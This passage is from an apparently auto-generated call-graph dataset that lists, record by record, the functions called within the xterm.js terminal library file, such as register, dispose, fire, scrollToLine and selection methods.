"calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerMouseEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerBinaryEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "explainEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_equalEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerBinaryEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerDecoration"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onDispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onDispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getDecorationsAtCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "forEachDecorationAtCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "forEachByKey"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isDisposed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "backgroundColorRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "foregroundColorRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "logLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateLogLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateLogLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateLogLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_evalLazyOptionalParams"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_evalLazyOptionalParams"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "trace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "info"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "trace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "trace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_sanitizeAndValidateOption"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setupOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onSpecificOptionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onOptionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onMultipleOptionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onOptionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setupOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_sanitizeAndValidateOption"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_sanitizeAndValidateOption"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMarker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onDispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_removeMarkerFromLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getEntryIdKey"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addLineToLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMarker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getEntryIdKey"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onDispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_removeMarkerFromLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addLineToLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMarker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onDispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_removeMarkerFromLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getLinkData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getEntryIdKey"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_removeMarkerFromLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "extractShouldJoin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "extractWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "extractCharKind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createPropertyValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "versions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "activeVersion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "activeVersion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "wcwidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "wcwidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getStringCellWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "wcwidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "wcwidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "extractWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "extractShouldJoin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "extractWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_checkReadonlyOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_checkReadonlyOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_checkProposedApi"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onBell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onBinary"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onCursorMove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onKey"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onLineFeed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onRender"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onScroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onSelectionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onTitleChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onWriteParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "element"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "unicode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_checkProposedApi"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "textarea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "rows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "buffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_checkProposedApi"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "modes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "options"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "options"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "blur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "blur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "input"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "input"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_verifyIntegers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "attachCustomKeyEventHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "attachCustomKeyEventHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "attachCustomWheelEventHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "attachCustomWheelEventHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerLinkProvider"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerLinkProvider"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCharacterJoiner"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_checkProposedApi"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCharacterJoiner"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "deregisterCharacterJoiner"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_checkProposedApi"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "deregisterCharacterJoiner"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerMarker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_verifyIntegers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerMarker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerDecoration"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_checkProposedApi"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_verifyPositiveIntegers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerDecoration"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "select"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_verifyIntegers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "select"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getSelectionPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getSelectionPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_verifyIntegers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_verifyIntegers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollPages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_verifyIntegers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollPages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollToTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollToTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollToBottom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollToBottom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollToLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_verifyIntegers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollToLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "writeln"}, {"confidence": 